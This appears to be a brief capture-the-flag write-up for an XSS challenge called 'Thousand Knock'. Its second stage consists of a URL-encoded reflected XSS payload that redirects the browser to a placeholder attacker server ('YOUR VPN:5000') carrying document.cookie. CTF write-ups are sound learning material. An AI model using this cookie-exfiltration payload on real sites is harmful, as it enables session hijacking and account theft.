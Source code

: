 # XSS_Thousand_Knock_Write_up

# Stage 1 (Tutorial)- Set up VPS/VPN, I used my AWS Shadowsock VPN in this case
# Stage 2 
	http://1a31198b4289ff3af4f7195a810c48eba9f6bf28.knock.xss.moe/?q=%22%3E%3Cscript%3Elocation=%22http://YOUR VPN:5000/?%22%2Bdocument.cookie%3C/script%3E
